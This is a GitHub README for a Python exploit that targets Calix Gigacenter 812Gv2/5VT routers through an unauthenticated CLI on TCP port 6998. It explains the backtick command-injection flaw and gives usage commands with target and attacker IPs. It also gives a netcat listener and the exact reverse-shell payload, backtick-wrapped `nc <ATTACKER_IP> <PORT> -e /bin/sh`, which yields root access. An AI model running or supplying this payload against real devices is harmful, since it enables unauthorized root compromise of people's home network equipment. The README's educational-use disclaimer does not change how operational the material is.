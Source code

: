 
# 📡 Calix Gigacenter Pre-Auth RCE Exploit (Port 6998)

This Python-based exploit targets Calix Gigacenter devices (812Gv2 / 5VT Series), leveraging a **pre-authenticated remote code execution (RCE)** vulnerability exposed via TCP **port 6998** which cwmp component is listening on. Successful exploitation leads to a reverse shell.

## 🔍 Vulnerability Details

The CLI exposed on port 6998 accepts unauthenticated input, which is improperly sanitized. By injecting a command wrapped in backticks (`` `command` ``), an attacker can achieve arbitrary command execution on the target device.

- The vulnerability affects **Calix Gigacenter 812Gv2** and **5VT Series**.
- The flaw allows execution of commands as root, without credentials.
- Reference:  
  - [SSD Disclosure Advisory](https://ssd-disclosure.com/ssd-advisory-calix-pre-auth-rce/)  
  - [CyberPress Article](https://cyberpress.org/calix-pre-auth-rce-port-6998/)

## 🚀 Exploit Features

- Written in Python using `pwntools`.
- Spawns a reverse shell automatically via netcat.
- Uses a threaded listener to catch the shell.
- Logging included (via `logging` module) instead of `print()`.

## 🧠 Requirements

- Python 3.x
- [`pwntools`](https://docs.pwntools.com/en/stable/)
  ```bash
  pip install pwntools
  ```

## ⚙️ Usage

```bash
python3 Gigacenter.py <TARGET_IP> <ATTACKER_IP> <ATTACKER_PORT>
```

### Example:

```bash
python3 Gigacenter.py 192.168.1.1 192.168.1.100 4444
```
![rce](https://github.com/user-attachments/assets/efbcf128-ae1b-4de8-bfaf-148709ab1c4c)


Make sure to have `nc -lvnp 4444` running or let the script handle the listener itself.

## 💀 Exploit Flow

1. Connects to the target on port 6998.
2. Spawns a thread that listens for reverse shell connection.
3. Sends the RCE payload:  
   ```
   `nc <ATTACKER_IP> <PORT> -e /bin/sh`
   ```
4. Interacts with the received shell.

## ⚠️ Legal Disclaimer

This code is provided for **educational and research purposes only**. Unauthorized access to systems is illegal and unethical. The author is not responsible for any misuse.

---
